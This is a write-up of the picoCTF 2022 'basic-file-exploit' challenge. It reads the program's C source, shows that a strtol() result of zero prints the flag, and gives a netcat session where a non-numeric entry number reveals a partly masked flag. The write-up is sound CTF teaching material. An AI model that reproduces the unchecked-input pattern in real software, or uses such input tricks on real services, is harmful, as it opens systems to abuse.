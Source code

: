 ```yaml
---
title: "pico22/pwn: basic-file-exploit"
date: 2022-04-05 12:16:07
tags:
- ctf
- pico22
- pwn
description: "Writeup for the picoCTF 2022 pwn challenge [basic-file-exploit]."
permalink: ctfs/pico22/pwn/basic-file-exploit/
thumbnail: https://enscribe.dev/image/banner-ctfs.png
---
```

## 📜 Description

The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it! Connect to the program with netcat: `$ nc saturn.picoctf.net 50366`
The program's source code with the flag redacted can be downloaded  [here](https://artifacts.picoctf.net/c/538/program-redacted.c).

---

## 🔍 Detailed Solution

Let's run that `nc` command to see what's going on.

```text
$ nc saturn.picoctf.net 50366
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
```

Since this is binary exploitation, we're probably looking for something that the user can input which breaks the code.
To see what we can break, enter the source code given to you (the file called `program-redacted.c`):

```bash
nano program-redacted.c
```

Let's look for the flag:

```c
static const char* flag = "[REDACTED]";
```

Well, that doesn't help. Let's keep looking.

```c
if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    puts(flag);
    fseek(stdin, 0, SEEK_END);
    exit(0);
  }
```

Here, the flag is going to be printed if this condition is met. Google defines `strtol()` as a function that "converts the initial part of the string in **str** to a **long int** value according to the given **base**". To break it, we need to input something that is **unconvertable into a long integer**. In this case, it would be letters! This statement is within the `static void data_read()` function. Let's see where it's called:

```c
 } else if (command == 2) {
      if (inputs == 0) {
        puts("No data yet");
        continue;
      }
      data_read();
      puts("Read successful, would you like to do anything else?");
```

We should be pressing the command `2` to read from the stored data (once we write it with the `1` command). Once it prompts us with "Read successful..." we should input letters to break it. Let's head back to the `netcat` and test it out:

```text
$ nc saturn.picoctf.net 50366
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
hello
hello
Please enter the length of your data:
5
5
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
"NO!"
"NO!"
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_********}
```
